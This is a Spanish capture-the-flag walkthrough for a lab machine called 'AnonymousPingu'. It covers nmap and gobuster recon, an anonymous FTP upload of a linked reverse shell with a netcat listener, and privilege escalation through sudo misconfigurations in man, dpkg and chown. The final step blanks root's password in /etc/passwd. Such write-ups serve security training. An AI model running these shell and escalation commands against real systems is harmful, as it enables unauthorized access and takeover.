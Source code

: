 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  29/04/2024
---
```


# AnonymousPingu

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web que nos muestra sea una de mantenimiento.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vemos un directorio interesante que es `/uploads` entonces podemos subir archivos por lo que probamos subir a través de FTP siendo anónimos una [**Reverse Shell**](https://www.revshells.com/).&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos que esta el archivo subido correctamente y nos ponemos en escucha.

```bash
nc -lnvp 443
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos con [GTFOBins ](https://gtfobins.github.io/gtfobins/man/)con permisos **SUDO** en **man**.

```
sudo -u pingu /usr/bin/man
!bin/sh
```

Ahora somos el usuario **Pingu**.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos con [GTFOBins ](https://gtfobins.github.io/gtfobins/dpkg/)con permisos **SUDO** en **dpkg**.

```bash
sudo -u gladys dpkg -l
!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos con [GTFOBins ](https://gtfobins.github.io/gtfobins/chown/)con permisos **SUDO** en **chown**.

```bash
sudo /usr/bin/chown gladys:gladys /etc
/usr/bin/sed -i 's/root:x:/root::/g' /etc/passwd #no tenemos permisos con nano o vim
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

